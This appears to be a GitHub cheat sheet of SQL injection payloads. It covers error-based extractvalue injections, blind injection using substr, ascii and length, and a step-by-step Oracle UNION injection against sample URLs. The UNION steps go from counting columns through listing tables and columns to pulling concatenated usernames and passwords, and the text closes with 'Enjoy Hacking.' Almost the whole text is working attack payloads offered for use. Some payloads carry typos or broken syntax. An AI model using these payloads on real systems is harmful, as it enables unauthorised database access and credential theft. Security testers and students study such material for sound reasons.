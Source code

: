 PAYLOAD
====

<H3>Errror base payload:</h3>
  
     
  If data is passsing INSERT querry and error is triggering

    ' or extractvalue(1,concat(0x7e,user())) or ' to find user()
  
    ' or extractvalue(1,concat(0x7e,(select table_name from information_schema.tables where table_schema=database() limit 0,1))) or ' to find table name

If data is passing in select querry

    and extractvalue(1,concat(0x7e,user())) to find user()

    and extractvalue(1,concat(0x7e,(select table_name from information_schema.tables where table_schema=database() limit 0,1))) to find table name

<h3>Blind SQL Injection</h3>
  
  Substring() To find the user() name
  
       substr(user(),1,1)>'a'   position* character*
  
  Ascii() To find the character from the value
  
       ascii(substr(user(),1,1))>10

Length() To find the length of the string
  
  length(database())>10
  
  Inserting Inline querry
  
       ascii(substr(select table_name from information_schema.tables where table_schema=database() limit 0,1)),1,1)>100 to find table name
  
  <h3>Union SQL Injection in Oracle db</h3>
  
  To find number of columns:
  
          www.vuln-web.com/photo.php?id=1' order by 1--
          

Unlike MySQL Oracle do not allow select statement without from clause. As we have prepared the Union select statement our next task is to check which column is getting printed that we can do by random testing each column one by one by printing the current database name

        www.vuln-web.com/photo.php?id=1' union select null,null,null,null,null,null,null,null,null from             dual--

    www.vuln-web.com/photo.php?id=1' union select null,'2222',null,null,null,null,null,null,null from dual--
    2222 gets Printed


 This means we can use the second column from now. Now to get the Database name we can use:
(select ora_database_name from dual)
(select sys.database_name from dual)
(select global_name from global_name)


            www.b0x.com/photo.php?id=1' union select                                                                   null,ora.database_name,null,null,null,null,null,null,null from                                             dual--


To get the username we can use:
(select user from DUAL)
(select user from users)


          www.b0x.com/photo.php?id=1' union select null,user,null,null,null,null,null,null,null from dual--


To get the version we can use:
(select banner from v$version where rownum=1)


            www.b0x.com/photo.php?id=1' union select null,(select banner from v$version where                           rownum=1),null,null,null,null,null,null,null from dual-- 


To get the Table Names we can use:
(select table_name from all_tables)


        www.b0x/photo.php?id=1' union select null,table_name,null,null,null,null,null,null,null from               all_tables--


To get the columns for a specific table we can use (here in example i am using user_table):
(select column_name from all_tab_columns where table_name='Your_Table_name_here')


            www.b0x/photo.php?id=1' union select null,column_name,null,null,null,null,null,null,null from               all_tab_columns where table_name='user_table'--


To extract data from some columns we can use the following query alongwith the || as concatination operator:
(select username||password from table_name_here)


        www.b0x.com/photo.php?id=1' union select null,username||password,null,null,null,null,null,null,null         from user_table--



Enjoy Hacking.  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
